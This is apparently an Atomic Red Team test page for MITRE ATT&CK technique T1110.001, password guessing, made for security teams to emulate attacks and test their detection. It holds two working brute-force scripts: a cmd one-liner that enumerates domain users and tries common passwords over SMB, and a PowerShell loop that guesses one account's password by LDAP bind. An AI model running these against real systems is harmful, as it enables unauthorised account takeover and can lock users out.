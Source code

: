 # T1110.001 - Password Guessing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/001)
<blockquote>Adversaries with no prior knowledge of legitimate credentials within the system or environment may guess passwords to attempt access to accounts. Without knowledge of the password for an account, an adversary may opt to systematically guess the password using a repetitive or iterative mechanism. An adversary may guess login credentials without prior knowledge of system or environment passwords during an operation by using a list of common passwords. Password guessing may or may not take into account the target's policies on password complexity or use policies that may lock accounts out after a number of failed attempts.

Guessing passwords can be a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

Typically, management services over commonly used ports are used when guessing passwords. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials of all domain users via SMB](#atomic-test-1---brute-force-credentials-of-all-domain-users-via-smb)

- [Atomic Test #2 - Brute Force Credentials of single domain user via LDAP against domain controller (NTLM or Kerberos)](#atomic-test-2---brute-force-credentials-of-single-domain-user-via-ldap-against-domain-controller-ntlm-or-kerberos)


<br/>

## Atomic Test #1 - Brute Force Credentials of all domain users via SMB

auto_generated_guid: 09480053-2f98-4854-be6e-71ae5f672224

Creates username and password files then attempts to brute force on remote host
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | &#92;&#92;COMPANYDC1&#92;IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```






<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single domain user via LDAP against domain controller (NTLM or Kerberos)

auto_generated_guid: c2969434-672b-4ec8-8df0-bbb91f40e250

Attempt to brute force domain user on a domain controller, via LDAP, with NTLM or Kerberos
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | String | bruce.wayne|
| passwords | List of passwords we will attempt to brute force with | String | Password1`n1q2w3e4r`nPassword!|
| domain | Domain FQDN | String | contoso.com|
| auth | authentication method to choose between "NTLM" and "Kerberos" | string | NTLM|


#### Attack Commands: Run with `powershell`! 


```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$passwords = "#{passwords}".split("{`n}")
foreach ($password in $passwords){
  $credz = new-object System.Net.NetworkCredential("#{user}", $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account #{user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of bruteforce"
```






<br/>

